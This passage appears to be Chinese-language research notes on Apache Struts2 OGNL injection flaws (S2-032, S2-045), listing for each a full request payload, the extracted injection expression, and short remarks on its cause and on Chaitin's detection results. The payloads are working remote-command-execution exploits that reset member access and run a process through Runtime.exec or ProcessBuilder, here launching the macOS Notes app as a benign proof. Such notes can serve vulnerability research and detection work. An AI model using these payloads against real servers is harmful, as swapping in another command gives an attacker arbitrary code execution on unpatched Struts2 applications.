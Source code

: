 ### result
* jsp 标签属性值中的参数值
* 长亭的检测结果与注入漏洞成因无关


## s2-032

### payload
```properties
# 解码前
http://www.glassy.com/struts2-showcase/home11.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D),d&cmd=/Applications/Notes.app/Contents/MacOS/Notes

# 解码后
http://www.glassy.com/struts2-showcase/home11.action?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]),d&cmd=/Applications/Notes.app/Contents/MacOS/Notes
```

### injection
```js
#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]),d&cmd=/Applications/Notes.app/Contents/MacOS/Notes
```

### result
* 长亭的检测结果与注入漏洞成因无关


## s2-045

### payload
```js
Content-Type:%{(#glassy='multipart/form-data').(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
```

### injection
```js
Content-Type:%{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}
```

### result
* 上传文件出错且错误信息中带 %{exp} 时， exp 会带入 ognl.getValue
* 长亭的检测结果与注入漏洞成因无关


## s2-048
